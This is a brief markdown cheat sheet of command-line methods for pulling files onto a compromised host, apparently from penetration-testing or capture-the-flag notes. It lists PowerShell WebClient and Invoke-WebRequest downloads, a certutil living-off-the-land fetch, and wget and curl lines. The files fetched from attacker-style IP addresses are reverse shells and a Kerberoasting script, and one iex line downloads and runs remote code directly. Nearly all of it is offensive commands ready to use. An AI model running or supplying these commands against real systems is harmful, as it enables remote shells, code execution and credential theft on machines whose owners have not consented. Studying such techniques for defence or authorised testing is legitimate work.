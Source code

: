 # Cheatsheet on downloading files with CLI

## PowerShell:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.27.64:80/shell.exe','shell.exe')"
```

```
powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe
```

```
iex​(New-Object Net.WebClient).DownloadString('http://10.13.27.64/Invoke-Kerberoast.ps1')
```

## LOL Bins:

```
certutil -urlcache -split -f http://192.168.23.204/reverse.exe
```

## Linux:

Reference: https://gtfobins.github.io/#+file%20download

```
wget http://192.168.23.204/reverse.elf
```

```
curl http://192.168.23.204/reverse.elf -o reverse.elf
```
